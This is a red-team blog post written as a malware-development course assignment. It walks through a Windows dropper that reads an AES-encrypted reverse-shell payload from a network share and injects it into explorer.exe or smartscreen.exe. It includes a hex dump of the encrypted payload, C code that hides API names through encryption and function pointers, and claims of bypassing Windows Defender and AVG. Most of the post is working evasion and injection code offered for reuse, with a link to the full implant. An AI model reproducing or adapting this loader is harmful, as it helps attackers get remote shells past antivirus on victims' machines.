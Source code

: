 ```yaml
---
layout: single
title: AV Evasion - Sharing is (s)caring
date: 2020-10-02
classes: wide
header:
  teaser: /assets/images/AV_evasion/sharing_is_caring.jpg
tags:
  - Pentester
  - Windows
  - Reverse shell
  - AV Evasion
  - Kitties
--- 
```

![](/assets/images/AV_evasion/sharing_is_caring.jpg)<br>

## Introduction
Hello hackers and welcome back to the 3rd and last assignment of the well done course on Malware Development by [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials), in the previous [blog post](https://blackcloud.me/the-payload-is-behind-kitties/) we saw PE injection using a payload hidden inside an image, implemented the dropper with the capacity of extraction of the payload and injecting it in the PE process target. The last assignmet ask us to encrypt a payload, load it on the file system or in our case in shared folder on the target OS, and write a dropper that open the payload and trigger the injection. The suggestions from reenz0h here are to use the [CreateFileA](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) and [ReadFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) WinAPI functions.

## The Assignment
Let's start taking our last dropper and check what we have and what we must change.<br>
The most of the code is working pretty well as we saw, but the payload extraction has to be changed because now reenz0h asked to open the payload from a directory on the fiule system, we choosed a network sherd folder, so take a look closer to the payload memory loading and analyze what we have to change.

## The Payload
In the previous posts we already prepared and encrypted the payload that was implemented as a resource or hidden behind an image, so there isn't much work here. The AES256 encrypted payload is the same used in the last post so a simple Win64 reverse shell

Let's check the payload with ```xxd```
```bash
xxd -g1 payload_enc
00000000: 4d 37 18 fc 9d 9a ac 18 47 a6 fc 63 96 fc df 01  M7......G..c....
00000010: 1b 24 25 c0 7f 11 c6 5b 9a 8f b6 c3 1b e3 de 01  .$%....[........
00000020: 9a e3 de 83 1b e0 82 dc 60 9d 90 f8 b9 53 c9 78  ........`....S.x
00000030: 35 a3 92 1e 74 65 04 71 2f 9f e3 37 47 1a b9 3a  5...te.q/..7G..:
00000040: 55 60 f3 78 c0 64 1d ef 60 81 79 19 8e e2 44 3e  U`.x.d..`.y...D>
00000050: 06 1c 01 0c 35 8a 28 f3 38 cf 13 0e 07 05 ff 37  ....5.(.8......7
00000060: 39 98 52 b4 45 65 46 27 47 4d 1a 5d 7a 1e e3 4e  9.R.EeF'GM.]z..N
00000070: 2c 0b be e1 01 78 99 48 30 c3 01 cc e4 12 49 96  ,....x.H0.....I.
00000080: c0 d8 0d 1d 5d 0b 14 6a 64 b7 04 ae 34 6c 27 4f  ....]..jd...4l'O
00000090: 9e ef c9 58 15 86 31 57 a9 1b 8f 7c 9b 69 73 7d  ...X..1W...|.is}
000000a0: ba 53 93 34 1d db c0 c4 d9 be 2a 47 0c 63 56 0d  .S.4......*G.cV.
000000b0: 43 9d 27 fd 12 1c 11 61 ae f5 b8 d7 eb f2 ad 67  C.'....a.......g
000000c0: 25 1b f9 ef 24 4b 6c ed 04 63 ea 68 92 63 ee 75  %...$Kl..c.h.c.u
000000d0: 48 65 40 c3 50 f2 d2 88 8c 43 51 1c ea 82 67 9d  He@.P....CQ...g.
000000e0: 32 4f 13 f9 ba df da 0e dc e6 0a 69 8d 87 98 9a  2O.........i....
000000f0: df a4 41 60 a0 1b f6 85 e2 57 3c 57 d2 b6 06 b5  ..A`.....W<W....
00000100: 41 40 24 c9 2d f1 68 c4 57 6e c4 4d 43 18 e5 4f  A@$.-.h.Wn.MC..O
00000110: 09 0c 89 ff c2 d0 4a bc 55 b6 50 3a b4 53 dd 69  ......J.U.P:.S.i
00000120: 62 2d c2 89 d1 a9 11 c3 d2 57 63 ed 7f 31 e3 41  b-.......Wc..1.A
00000130: fb 91 08 1e 9e d7 94 17 58 4c 7b 0d 79 ee 9b fe  ........XL{.y...
00000140: 5f 59 b7 f3 bb 61 fb 0e eb 45 da 6c b5 9e e5 f9  _Y...a...E.l....
00000150: 65 fb 18 7f a0 9a d3 7d 63 76 79 a2 01 ea 1a f8  e......}cvy.....
00000160: dd 54 cf 64 bc 8c b2 d2 26 04 b9 d4 6d 97 78 88  .T.d....&...m.x.
00000170: 79 d8 e7 50 2a 21 18 4f 1a e3 b4 9d ec c4 de 11  y..P*!.O........
00000180: 6d 8d fc 05 d2 a1 42 ff 6b ad 75 67 16 26 93 66  m.....B.k.ug.&.f
00000190: 55 76 86 eb 4c c7 45 c1 a1 3b f5 12 a6 5a 6a 01  Uv..L.E..;...Zj.
000001a0: fe 31 13 10 77 1b cd 47 dd d8 c2 8a cc 90 ca b5  .1..w..G........
000001b0: b2 64 40 d6 0a 73 66 76 95 08 1c cc b6 f7 6f 9c  .d@..sfv......o.
000001c0: 04 46 10 53 9e 1f 09 bc 95 cf 25 70 e1 38 0b 9c  .F.S......%p.8..
```
Now we must mount the folder where the payload is, in the target OS as a shared folder. 

## The Dropper
As for the previous post the main thing to change is the way the payload is loaded in memory. 

```c
  // Load resources section
  res = pFindResourceA(NULL, MAKEINTRESOURCE(IMAGE), RT_RCDATA);
  resHandle = pLoadResource(NULL, res);
      
  // Extract payload from the image
  image = (char*)pLockResource(resHandle); // lock the resource and point to the first char of the jpg
  image_len = SizeofResource(NULL, res); // get the size of the jpg + p0 + last 7 bytes 
  
  end = image + image_len - 7; // jump to the end of the jpg and read the last 7 bytes that are the original size of the jpg without p0
  size = atoi(end); // cast from char to int, now size is the original size of the jpg
  offset = image + size; // offset points to the first char of the p0
  p0_len = image_len - size - 7; // calculate the payload size
  memcpy(p0, offset, p0_len); // copy in another memory area the effective p0

  // Allocate some memory buffer for p0
  exec_mem = pVirtualAlloc(0, p0_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Copy p0 to new memory buffer
  pRtlMoveMemory(exec_mem, p0, p0_len);
```
In the code trunk below the Windows functions are called as pointers because of AES encryption as saw in the previous post, this techniques works very well as an AV evasion technique so we can reuse it. Now we have to change the dropper like this

```c
  //Define the BUFFSIZE
  #define BUFFSIZE 512

  ...
  // Define the pointer to the kernel32.dll file manipuulation functions
  HANDLE (WINAPI * pCreateFileA)(
    LPCSTR                lpFileName,
    DWORD                 dwDesiredAccess,
    DWORD                 dwShareMode,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    DWORD                 dwCreationDisposition,
    DWORD                 dwFlagsAndAttributes,
    HANDLE                hTemplateFile
  );

  BOOL (WINAPI * pReadFile)(
    HANDLE       hFile,
    LPVOID       lpBuffer,
    DWORD        nNumberOfBytesToRead,
    LPDWORD      lpNumberOfBytesRead,
    LPOVERLAPPED lpOverlapped
  );

  ...
  // Define the encrypted name of the functions strings 
  unsigned char sCreateFileA[] = { ... };
  unsigned char sReadFile[] = { ... };
  ...

  // Decrypt the strings when needed
  AESDecrypt((char *) sCreateFileA, sizeof(sCreateFileA), key, sizeof(key));
  AESDecrypt((char *) sReadFile, sizeof(sReadFile), key, sizeof(key));
  ...

  // Define the path where payload is stored 
  // (remember the double backslashes to avoid the escaping characters)
  // the file HANDLE and the payload buffer size
  HANDLE hFile;
  char path[] = "\\\\tsclient\\share\\payload_enc";
  char* payload[BUFFSIZE] = {0};
  ...

  // Populate the pointer to the functions with the GetModuleHandle call
  pOpenProcess = GetProcAddress(GetModuleHandle(sKernel), sOpenProcess);
  pCreateFileA = GetProcAddress(GetModuleHandle(sKernel), sCreateFileA);
  ...

  // Load the payload from FS to memory
  hFile = pCreateFileA(path, 
                      GENERIC_READ,
                      FILE_SHARE_READ, 
                      NULL, 
                      OPEN_EXISTING, 
                      FILE_ATTRIBUTE_NORMAL, 
                      NULL);
  
  if (hFile == INVALID_HANDLE_VALUE) {
    return 0;
  }

  if (FALSE == pReadFile(hFile, payload, (BUFFSIZE-1), NULL, NULL)) {
    return 0;
  }
  
  // Close the HANDLE
  pCloseHandle(hFile);
  
  payload_len = strlen(payload);
  
  // Allocate some memory buffer for payload
  exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Copy payload to new memory buffer
  pRtlMoveMemory(exec_mem, payload, payload_len);
```
After opening the file with ```CreateFileA``` function we need to read it with ```ReadFile```, this function load the payload as binary stream in the ```payload``` pointer in memory. What we must do now is to calculate the payload lenght and move the payload to another RW memory buffer. After that we are ready to decrypt our payload and inject it in our PE target process.

## Tests
As in the previous post we tested the dropper on different process: ```explorer.exe```, ```notepad.exe``` and ```smartscreen.exe``` but in this case  the injection doesn't trigger Windows Defender nor AVG Free "only" on ```explorer.exe``` and ```smartscreen.exe```, AVG scan the dropper and let it execute the reverse shell payload maintaining the shell active. So, also in this case, we are following the TOON rule (Two is One and One is None) also in this case.  

![](/assets/images/AV_evasion/AVG_fs_bypass.gif)<br>

and [here](https://github.com/bolonobolo/av_evasion/tree/master/PE_Injection/Sharing%20is%20scaring/implant.cpp) you can find the dropper code. <br>
We hope you enjoied the ride on ```RedTeam Operator Malware Development Essentials``` walkthrough assignments and stay tuned for the ```Intermediate``` level posts :)

## References
Malware Dev Essentials Course
- [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [reenz0h](https
://twitter.com/Sektor7Net) <br>
